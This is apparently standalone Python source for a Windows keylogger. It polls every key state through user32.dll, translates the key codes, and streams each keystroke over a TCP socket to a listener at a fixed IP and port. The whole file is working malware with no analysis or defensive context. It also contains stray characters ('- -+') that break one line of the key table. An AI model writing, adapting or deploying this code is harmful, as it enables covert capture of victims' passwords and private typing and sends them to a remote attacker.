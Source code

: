 import socket  # Socket for TCP communication
import ctypes  # For accessing Windows keyboard API
import time    # For sleep functionality

# Server IP and Port
serverAddress = ('10.0.2.15', 9000) 
 
# Create and connect socket
clientSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
clientSocket.connect(serverAddress)

# Load user32.dll for accessing Windows key state
user32 = ctypes.windll.user32

# Function to convert key code to readable format
def getKey(code):
    asciiTable = {
        "8": "[BACKSPACE]", "9": "[TAB]", "13": "[ENTER]", "16": "[SHIFT]",
        "17": "[CTRL]", "18": "[ALT]", "19": "[PAUSE]", "20": "[CAPSLOCK]",
        "27": "[ESC]", "32": " ", "33": "[PAGEUP]", "34": "[PAGEDOWN]",
        "35": "[END]", "36": "[HOME]", "37": "[LEFT]", "38": "[UP]",- -+
        "39": "[RIGHT]", "40": "[DOWN]", "45": "[INSERT]", "46": "[DELETE]",
        "48": "0", "49": "1", "50": "2", "51": "3", "52": "4", "53": "5",
        "54": "6", "55": "7", "56": "8", "57": "9", "65": "A", "66": "B",
        "67": "C", "68": "D", "69": "E", "70": "F", "71": "G", "72": "H",
        "73": "I", "74": "J", "75": "K", "76": "L", "77": "M", "78": "N",
        "79": "O", "80": "P", "81": "Q", "82": "R", "83": "S", "84": "T",
        "85": "U", "86": "V", "87": "W", "88": "X", "89": "Y", "90": "Z",
        "91": "[WIN]", "93": "[MENU]", "96": "0", "97": "1", "98": "2",
        "99": "3", "100": "4", "101": "5", "102": "6", "103": "7", "104": "8",
        "105": "9", "106": "*", "107": "+", "109": "-", "110": ".", "111": "/",
        "112": "[F1]", "113": "[F2]", "114": "[F3]", "115": "[F4]",
        "116": "[F5]", "117": "[F6]", "118": "[F7]", "119": "[F8]",
        "120": "[F9]", "121": "[F10]", "122": "[F11]", "123": "[F12-]",        "186": ";", "187": "=", "188": ",", "189": "-", "190": ".", 
        "191": "/", "192": "`", "219": "[", "220": "\\", "221": "]", 
        "222": "'"
    }

    return asciiTable.get(code, "")

# Main function for capturing keystrokes
def main():
    keyStates = {}

    while True:
        for i in range(256):
            if user32.GetAsyncKeyState(i) & 0x8000:
                if not keyStates.get(i, False):
                    keyStates[i] = True
                    key = getKey(str(i))

                    # If CapsLock is OFF and key is alphabetical, make it lowercase
                    if user32.GetKeyState(0x14) & 0x0001 == 0:
                        key = key.lower()

                    if key:
                        clientSocket.sendall(key.encode())
            else:
                keyStates[i] = False

        time.sleep(0.01)  # 10 ms pause

# Run main
if __name__ == "__main__":
    main()




